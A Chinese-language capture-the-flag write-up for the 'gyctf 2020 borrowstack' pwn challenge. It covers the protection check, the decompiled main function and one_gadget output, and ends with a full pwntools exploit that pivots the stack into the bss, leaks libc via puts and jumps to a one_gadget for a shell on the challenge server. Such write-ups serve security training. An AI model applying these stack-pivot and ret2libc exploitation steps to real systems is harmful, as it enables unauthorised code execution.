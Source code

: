 ```yaml
---
author: 
  name: Zephyr
title: gyctf 2020 borrowstack
date: 2022-4-8 16:51:29
permalink: /pages/2e1547494524d1b0
tags: 
  - buuctf
  - pwn
  - StackOverflow
  - 栈迁移
---
```


# gyctf 2020 borrowstack

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/gyctf_2020_borrowstack/gyctf_2020_borrowstack'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-60h]

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  puts(&s);
  read(0, &buf, 0x70uLL);
  puts("Done!You can check and use your borrow stack now!");
  read(0, &bank, 0x100uLL);
  return 0;
}
```

one_gadget如下：

```shell
one_gadget libc-2.23.so
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```



## 思路分析

1. 目前信息：

   - main函数buf缓冲区有0x10大小可以溢出
   - bank变量在bss段,地址可确定
   - 无system函数，无/bin/sh字符串
   - No canary found
   - NX enabled
   - No PIE
1. 坑
- bss段上的bank距离got表太近，使rop链在执行时覆盖了got表内容，导致失败
3. 思路：

- 可溢出大小太短，无法一次性构造payload完成控制程序执行流，考虑在第一次溢出将栈迁移至bank处，泄漏libc找到one_gadget，二次溢出到one_gadget处获得shell

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']
pwnfile = '/root/pwn/buuctf/gyctf_2020_borrowstack/gyctf_2020_borrowstack'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 29600)
elf = ELF(pwnfile)
padding = 0x60+8
bss_bank = 0x601080
leave_ret = 0x400699
pop_rdi_ret = 0x400703
ret = 0x4004c9
main_addr = elf.symbols['main']
puts_plt = elf.plt['puts']
libc_start_main_got = elf.got['__libc_start_main']
csu_front = 0x4006E0
csu_rear = 0x4006FA
payload = flat([cyclic(padding-8), bss_bank+0xa0, leave_ret])
# bss段上的bank离got表太近，为了防止覆盖got表，这里选择迁移到bss_bank+0xa0处
io.sendafter('Tell me what you want\n', payload)
payload = flat([cyclic(0xa0), bss_bank+0x100, pop_rdi_ret,libc_start_main_got, puts_plt, main_addr])
io.sendafter('Done!You can check and use your borrow stack now!\n', payload)
leak_libc_start_main = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
log.success("leak_libc_start_main: " + hex(leak_libc_start_main))
# 理论上接下来ret2libc即可，但因为栈已经被迁移至了bss段
# 而返回main处要处理sub rsp,60h这一条指令的同时也要解决后面双栈迁移
# 这样套娃逻辑较为混乱，所以选择one_gadget
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
# 泄漏了几个libc 可以在/LibcSearcher/libc-database/db 找泄漏出的libc对应的one_gadget
libc_base = leak_libc_start_main-libc.dump('__libc_start_main')
one_gadget = libc_base + 0x4526a
payload = flat([cyclic(padding), one_gadget])
# 此时rsp+0x30就是null，不需要用ret调整rsp的位置
io.send(payload)
io.send('0xdeadbeef')
io.interactive()
```